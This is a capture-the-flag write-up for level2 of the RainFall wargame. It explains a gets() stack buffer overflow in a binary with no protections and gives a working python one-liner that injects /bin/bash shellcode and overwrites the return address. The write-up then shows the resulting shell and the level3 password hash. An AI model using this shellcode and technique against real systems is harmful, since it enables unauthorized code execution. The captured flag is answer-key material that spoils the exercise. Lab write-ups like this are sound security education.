 # level2

## Header

```bash
ssh level2@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

<hr>

## Solution

From the inspecting [disassembled code](./source.s), we can understand that we can use vulnerable `gets` to overwrite return address.

What we'll do is place some shellcode into our buffer and overwrite `p`'s return address to jmp right to the shellcode.

First, we need to upload payload:

```bash
scp -P 4242 ./level2/payload.py level2@192.168.64.9:/tmp/payload2.py

python /tmp/payload2.py
```

or just use this:

```bash
python -c 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "A" * 47 + "\x08\x04\xa0\x08"[::-1]' > /tmp/payload2
```

This will produce payload file that should be used to exploit the binary:

```bash
level2@RainFall:~$ (cat /tmp/payload2; cat) | ./level2
pwd
/home/user/level2
cd ../level3
ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## References

- [This is why you should pass payload to binary like that](https://security.stackexchange.com/questions/155832/system-bin-sh-exits-without-waiting-for-user-input-overthewire-narnia0-chal)

- [Used shellcode](https://shell-storm.org/shellcode/files/shellcode-606.html)
